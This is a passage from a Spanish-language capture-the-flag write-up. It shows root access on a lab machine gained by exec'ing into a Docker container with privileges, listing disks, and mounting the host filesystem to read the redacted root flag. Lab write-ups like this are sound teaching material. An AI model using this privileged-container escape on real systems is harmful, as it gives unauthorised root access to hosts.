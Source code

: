 - Ahora teniendo el nombre del contenedor podemos ejecutar una **bash** dentro.

```bash
boris@ip-10-10-10-11:~$ sudo docker exec -it --privileged -u root e6ff5b1cbc85 bash
bash-5.1# whoami
root
bash-5.1#
```

- Ahora vemos los discos.

```bash
bash-5.1# fdisk -l
Disk /dev/xvda: 8192 MB, 8589934592 bytes, 16777216 sectors
6367 cylinders, 85 heads, 31 sectors/track
Units: sectors of 1 * 512 = 512 bytes

Device   Boot StartCHS    EndCHS        StartLBA     EndLBA    Sectors  Size Id Type
/dev/xvda1 *  0,32,33     20,84,31          2048   16777182   16775135 8190M 83 Linux
bash-5.1#
```

- Y ahora creamos una montura para poder ver la flag.

```bash
bash-5.1# mkdir -p /mnt/pwned
bash-5.1# mount /dev/xvda1 /mnt/pwned
bash-5.1# cd /mnt/pwned/root
bash-5.1#
```

## Root flag

- Ahora podemos ver la flag.

```
bash-5.1# cat root.txt
VL{***************************}
bash-5.1#
```
